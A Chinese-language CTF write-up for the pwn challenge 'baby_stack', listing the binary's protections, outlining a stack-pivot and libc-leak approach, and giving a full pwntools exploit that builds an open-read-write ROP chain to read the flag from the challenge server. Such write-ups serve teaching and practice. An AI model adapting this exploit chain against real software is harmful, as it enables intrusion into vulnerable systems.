

# baby_stack 

*没有exec的生活是如此困难，但好在flag放在了根目录下面*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.23-0ubuntu11.3|

## seccomp rules



## 解题思路

可以栈溢出，但是只有0x10字节，因此考虑栈溢出。开了沙箱，不能拿shell，打orw

先通过rbp泄露栈地址，然后栈迁移回rsp泄露libc；由于此时无法控制rdx，
所以还需要再执行一次`func`，再栈迁移一次完成orw

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './stack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20532)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    readPlt = elf.plt['read']
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    func = elf.symbols['func']
    rdi = gadgets.rdi.address
    leave = gadgets.leave.address

    # steal rbp first
    sh.sendafter(b'content', b'FLAG'.rjust(8 * 0x28))
    sh.recvuntil(b'FLAG')
    rbp = u64(sh.recv(6) + b'\0\0')
    rsp = rbp - 0x2a * 8
    info(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    # then stack pivot back and leak libc, return to func
    sh.sendafter(b'again:\n', (p64(rsp - 0x128) + p64(rdi) + p64(putsGot) + p64(putsPlt) + 
                               p64(func)).ljust(8 * 0x28) + p64(rsp) + p64(leave))

    # finally we stack pivot once more to operate orw
    puts = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = puts - libc.symbols['puts']
    gadgets = ROP(libc)
    rsi = libcBase + gadgets.rsi.address
    rdx = libcBase + gadgets.rdx.address
    open64 = libcBase + libc.symbols['open64']
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))
    sh.sendafter(b'content', b'skip this input')
    rsp -= 0x120
    sh.sendafter(b'again:\n', b'flag'.ljust(8, b'\0') + (
                 p64(rdi) + p64(rsp) + p64(rsi) + p64(0) + p64(open64) +
                 p64(rdi) + p64(3) + p64(rsi) + p64(rbp) + p64(rdx) + p64(0x50) + p64(readPlt) +
                 p64(rdi) + p64(rbp) + p64(putsPlt)).ljust(8 * 0x27) +
                 p64(rsp) + p64(leave))

    success(f'FLAG is: {sh.recvuntil(b"}").decode()}')
    sh.close()
```
